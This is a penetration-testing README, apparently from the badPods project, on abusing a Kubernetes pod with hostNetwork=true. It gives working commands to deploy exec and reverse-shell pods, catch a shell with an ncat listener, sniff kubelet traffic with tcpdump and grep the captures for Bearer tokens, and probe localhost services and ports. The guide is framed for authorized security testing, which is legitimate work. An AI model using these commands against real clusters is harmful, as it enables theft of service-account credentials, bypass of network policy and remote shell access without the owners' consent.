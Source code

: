 # Bad Pod #6: hostNetwork

If you only have `hostNetwork=true`, you can't get privileged code execution on the host directly, but if your cross your fingers you might still find a path to cluster admin. There are two potential escalation paths: 
* **Sniff traffic** - You can use `tcpdump` to sniff unencrypted traffic on any interface on the host. You might get lucky and find `service account` tokens or other sensitive information that is transmitted over unencrypted channels.
* **Access services bound to localhost** - You can also reach services that only listen on the host’s loopback interface or are otherwise blocked by network polices. These services might turn into a fruitful privilege escalation path.
* **Bypass network policy** - If a restrictive network policy is applied to the namespace, deploying a pod with `hostNetwork=true` allows you to bypass the restrictions because you are bound to the host's network interfaces, and not the pod. 
## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post Exploitation](#post-exploitation)
  - [Install tcpdump and sniff traffic](#install-tcpdump-and-sniff-traffic)
  - [Investigate local services](#investigate-local-services)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)


# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl exec -it hostnetwork-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/[RESOURCE_TYPE]/hostnetwork-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostnetwork-exec-[RESOURCE_TYPE]      
kubectl exec -it hostnetwork-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostnetwork-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostnetwork/[RESOURCE_TYPE]/hostnetwork-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl delete pod hostnetwork-exec-pod
kubectl delete cronjob hostnetwork-exec-cronjob
```


# Post Exploitation 

## Install tcpdump and sniff traffic 
*If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes `tcpdump`, like https://hub.docker.com/r/corfr/tcpdump*

```bash
apt update && apt -y install tcpdump net-tools netcat
```
You now have a few options for next steps: 

**See if the `kubelet` read port (10255/tcp) is open on any of the node's IPs**
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

**If the read port is open, run `tcpdump`, recording the output to a file for a few minutes**

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run `tcpdump` with the `-n` flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```

**Stop the capture and read the file with `tcpdump`.  Tip: Use the `-A` flag to only show the printable characters and hunt for things like tokens with `grep`** 

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
tcpdump -ro kubelet-ro.cap -s0 -A | grep Bearer
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt. If you are really lucky, that token might be associated with a service account in `kube-system`.


## Investigate local services
```bash
curl https://localhost:1234/metrics
```

## Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
